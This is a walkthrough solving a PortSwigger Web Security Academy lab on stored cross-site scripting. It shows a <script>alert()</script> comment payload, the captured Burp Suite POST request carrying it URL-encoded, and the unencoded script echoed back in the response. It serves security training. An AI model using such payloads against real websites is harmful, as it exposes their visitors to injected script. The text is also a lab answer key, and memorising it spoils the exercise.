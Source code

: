 ```yaml
---
title: >
  Solution to Lab: Stored XSS into HTML context with nothing encoded
---
```


The following is a solution to [Lab: Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded).

Navigate to a blog post.

Leave the following payload in the body of a comment:
`<script>alert("boop");</script>`

This step is demonstrated in the screenshot below.
![A screenshot of the comment box with the alert("boop") payload as the body of the comment](/wsa-labs/docs/assets/alert()-poc-4202023-1.png)

Post the comment. Doing so solves the lab.

To see the effects of the alert() function, click Back to blog. The alert box should appear. This is shown in the screenshot below.
![A screenshot of the alert box with the message "boop"](/wsa-labs/docs/assets/alert()-poc-4202023-2.png)

The HTTP request associated with the action of posting the comment is below, as pulled from the HTTP history section of the Proxy tab in Burp Suite. The URL-encoded JavaScript can be seen at the bottom of the request.

~~~
POST /post/comment HTTP/2
Host: 0a3a001b0379440182b5e235007a00ac.web-security-academy.net
Cookie: [redacted]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 183
Origin: https://0a3a001b0379440182b5e235007a00ac.web-security-academy.net
Referer: https://0a3a001b0379440182b5e235007a00ac.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=t2mkGTOtphNJPCANub2fdi6DX3X5cyP5&postId=3&comment=%3Cscript%3Ealert%28%22boop%22%29%3C%2Fscript%3E&name=Jean-Luc+Picard&email=email%40email.com&website=http%3A%2F%2Fwww.email.com
~~~

A snippet of the HTTP response when one navigates back to the blog appears below.

~~~
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 9494

<!DOCTYPE html>
<html>
...
<script>alert("boop")</script>
...
~~~